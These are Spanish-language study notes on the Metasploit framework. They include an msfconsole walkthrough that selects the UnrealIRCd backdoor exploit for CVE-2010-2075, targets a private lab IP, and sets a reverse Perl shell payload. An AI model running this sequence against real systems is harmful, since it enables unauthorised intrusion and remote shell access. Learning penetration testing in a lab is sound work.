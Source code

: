 ## Metasploit

- Exploits hechos en [[Ruby]].
- Herramienta automática, un framework para hacer la explotación de forma sencilla
- Tiene implementados un conjunto de exploits enorme para las vulnerabilidades que van saliendo.
- Entonces metasploit almacena un modulo y nos permite utilizarlo.
- Ademas, tiene herramientas auxiliares que nos permiten realizar toda la fase de lanzamiento del exploit contra un target, Manejo de la conexión que nos puede devolver ese target hacia nosotros.

La instalacion en Windows se puede realizar pero seria muy dificil porque Windows defender se activaria para bloquearlo. 



$ sudo service nessusd start

Luego abrimos el navegador para acceder al reporte de vulnerabilidades

$ sudo msfdb init && msfconsole

msf6 > search cve:2010-2075
msf6 > use 0
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set rhosts 192.168.180.131
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show options

*Ademas del exploit necesitamos un [[payload]]*

msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show payloads
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload 7
payload => cmd/unix/reverse_perl


#keywords
RHOSTS -> Remote Hosts. La ip de la maquina a atacar
RPORT -> Remote Port de la maquina que vamos a atacar.
URI -> Unique Resource Identifier 
